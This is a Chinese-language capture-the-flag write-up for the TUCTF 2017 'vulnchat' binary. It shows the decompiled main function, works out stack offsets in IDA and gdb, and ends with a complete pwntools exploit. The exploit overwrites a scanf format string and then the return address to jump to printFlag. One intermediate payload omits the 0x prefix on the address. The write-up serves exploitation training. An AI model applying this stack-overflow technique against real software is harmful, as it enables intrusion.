 # 2.5 tuctf 2017 vulnchat
首先查看程序安全机制

![image](images/85346488.png)

运行程序

![image](images/85378790.png)

程序有两个输入点，使用IDA查看代码

main函数

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[20]; // [esp+3h] [ebp-2Dh] BYREF
  char v5[20]; // [esp+17h] [ebp-19h] BYREF
  char var5[9]; // [esp+2Bh] [ebp-5h] BYREF

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  strcpy(var5, "%30s");
  __isoc99_scanf(var5, v5);
  printf("Welcome %s!\n", v5);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", v5);
  __isoc99_scanf(var5, v4);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
printFlag函数

![image](images/e023e0ab-843e-4f5a-b32b-f6370598181d.png)



从main函数可以看出，var5的值为%30s，所以在接下来的两次scanf中，都只接收30个字符串。现在我们看看输入点v5和输入点v4与eip直接的差值为多少。在IDA中，我们可以看到v4对应var\_2D, v5对应var\_19，从调用约定上来看，我们可以算出v4到eip的距离为0x2d+4 = 49, v5到eip为0x19+4 = 29，而我们的输入点限制了长度为30，无法完整的覆盖eip。

![image](images/85950964.png)

不过这里我们可以看到var5的到v5直接的距离为0x19 - 0x5 = 20，那么我们可以把var5的值覆盖掉，改成%99s，这样后面v4的输入限制就会从30变成了99，就能够覆盖eip，执行我们要执行的函数printFlag了。



所以第一段的payload如下：

```python
'a' * 0x14 + '%99s'
```
接着我们要找到v4变量到EIP之间的字节数，使用gdb进行分析

断点设置如下：

```cpp
gef➤  b *(main +178)
```
允许程序，第一次输入 abcd，第二次输入10个0

```cpp
gef➤  r
Starting program: /home/vuln/nightmare/modules/05-bof_callfunction/tu17_vulnchat/vuln-chat 
----------- Welcome to vuln-chat -------------
Enter your username: abcd
Welcome abcd!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
abcd: 0000000000
```
接着我们在内存中查找输入的10个0，然后查看此时的栈帧情况

![image](images/90a53d4f-f8d2-4b60-a386-02c9f6954a8f.png)

从上面的信息可以看出，两者相差了49个字节，所以第二段的payload如下：

```python
# printFlag address 0x804856B
'A' * 49 + p32(804856B)
```
最终exploit

```python
#!/usr/bin/python

from pwn import *

p1 = ''
p1 += 'A' * 0x14
p1 += '%99s'

target = process('./vuln-chat')

target.recvuntil('username:')
target.sendline(p1)

target.recvuntil(p1+':')
p2 = ''
p2 += 'A' * 49
p2 += p32(0x804856B)
target.sendline(p2)

target.interactive()
```
![image](images/05582d89-77a2-4b59-ab9f-2507f5dfdf13.png)
